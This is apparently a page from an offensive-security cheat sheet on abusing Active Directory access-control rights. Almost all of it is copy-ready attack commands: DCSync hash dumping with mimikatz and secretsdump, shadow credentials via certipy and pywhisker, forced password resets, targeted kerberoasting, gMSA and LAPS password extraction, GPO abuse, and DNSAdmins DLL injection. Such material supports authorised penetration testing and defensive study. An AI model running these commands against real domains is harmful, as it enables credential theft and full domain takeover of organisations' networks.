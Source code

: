 # ACLs/ACEs permissions

## Dcsync >>> Domain Admin || Lateral move || Crack hash
- Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `secretsdump.py '<domain>'/'<user>':'<password>'@'<domain_controller>'`

## can change msDS-KeyCredentialLInk (Generic Write) + ADCS >>> PassTheCertificate
- Shadow Credentials
  - `certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'`
  - `pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"`

## On Group
- GenericAll/GenericWrite/Self/Add Extended Rights
  - Add member to the group
- Write Owner
  - Grant Ownership
- WriteDACL + WriteOwner
  - Grant rights
    - Give yourself generic all

## On Computer
- GenericAll / GenericWrite
  - msDs-AllowedToActOnBehalf >>> RBCD
  - add Key Credentials >>> shadow credentials

## On User
- GenericAll / GenericWrite
  - Change password
    - `net user <user> <password> /domain` >>> User with clear text pass
  - add SPN (target kerberoasting)
    - `targetedKerberoast.py -d <domain> -u <user> -p <pass>` >>> Hash found (TGS)
  - add key credentials >>> shadow credentials
  - login script >>> Access
- ForceChangePassword
  - `net user <user> <password> /domain` >>> User with clear text pass

## On OU
- Write Dacl
  - ACE Inheritance
    - Grant rights
- GenericAll / GenericWrite / Manage Group Policy Links
  - `OUned.py --config config.ini`

## ReadGMSAPassword
- `gMSADumper.py -u '<user>' -p '<password>' -d '<domain>'`
- `nxc ldap <ip> -u <user> -p <pass> --gmsa`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldaps://<dc_ip> gmsa`

## Get laps passwords
- who can read LAPS
  - `MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p`
- Read LAPS >>> Admin
  - `Get-LapsADPassword -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize`
  - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> laps`
  - `foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}`
  - `nxc ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps`
  - `msf> use post/windows/gather/credentials/enum_laps`

## GPO
- `MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p`
- SID of principals that can create new GPOs in the domain
  - `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs  | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Return the principals that can write to the GP-Link attribute on OUs
  - `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
- Generic Write on  GPO
  - Abuse GPO >>> ACCESS

## DNS Admin
- DNSadmins abuse (CVE-2021-40469) @CVE@ >>> Admin
  - `dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user`
  - `sc \\DNSServer stop dns sc \\DNSServer start dns`

